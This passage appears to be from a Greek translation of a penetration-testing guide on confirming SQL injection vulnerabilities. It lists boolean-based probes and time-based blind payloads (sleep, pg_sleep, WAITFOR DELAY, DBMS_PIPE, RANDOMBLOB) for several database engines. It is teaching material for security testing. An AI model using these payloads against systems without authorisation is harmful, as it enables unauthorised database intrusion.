 ### Επιβεβαίωση με λογικές λειτουργίες

Μια αξιόπιστη μέθοδος για την επιβεβαίωση μιας ευπάθειας SQL injection περιλαμβάνει την εκτέλεση μιας **λογικής λειτουργίας** και την παρατήρηση των αναμενόμενων αποτελεσμάτων. Για παράδειγμα, μια παράμετρος GET όπως `?username=Peter` που αποδίδει ταυτόσημο περιεχόμενο όταν τροποποιηθεί σε `?username=Peter' or '1'='1` υποδεικνύει μια ευπάθεια SQL injection.

Ομοίως, η εφαρμογή **μαθηματικών λειτουργιών** χρησιμεύει ως μια αποτελεσματική τεχνική επιβεβαίωσης. Για παράδειγμα, αν η πρόσβαση σε `?id=1` και `?id=2-1` παράγει το ίδιο αποτέλεσμα, αυτό είναι ενδεικτικό SQL injection.

Παραδείγματα που δείχνουν την επιβεβαίωση λογικών λειτουργιών:
```
page.asp?id=1 or 1=1 -- results in true
page.asp?id=1' or 1=1 -- results in true
page.asp?id=1" or 1=1 -- results in true
page.asp?id=1 and 1=2 -- results in false
```
Αυτή η λίστα λέξεων δημιουργήθηκε για να προσπαθήσει να **επιβεβαιώσει SQLinjections** με τον προτεινόμενο τρόπο:

{% file src="../../.gitbook/assets/sqli-logic.txt" %}

### Επιβεβαίωση με Χρόνο

Σε ορισμένες περιπτώσεις **δεν θα παρατηρήσετε καμία αλλαγή** στη σελίδα που δοκιμάζετε. Επομένως, ένας καλός τρόπος για να **ανακαλύψετε τυφλές SQL injections** είναι να κάνετε τη βάση δεδομένων να εκτελεί ενέργειες που θα έχουν **επίδραση στον χρόνο** που χρειάζεται η σελίδα για να φορτώσει.\
Επομένως, θα προσθέσουμε στην SQL ερώτηση μια λειτουργία που θα χρειαστεί πολύ χρόνο για να ολοκληρωθεί:
```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```
Σε ορισμένες περιπτώσεις οι **λειτουργίες ύπνου δεν θα επιτρέπονται**. Τότε, αντί να χρησιμοποιήσετε αυτές τις λειτουργίες, μπορείτε να κάνετε το ερώτημα **να εκτελεί σύνθετες λειτουργίες** που θα διαρκέσουν αρκετά δευτερόλεπτα. _Παραδείγματα αυτών των τεχνικών θα σχολιαστούν ξεχωριστά για κάθε τεχνολογία (αν υπάρχουν)_.
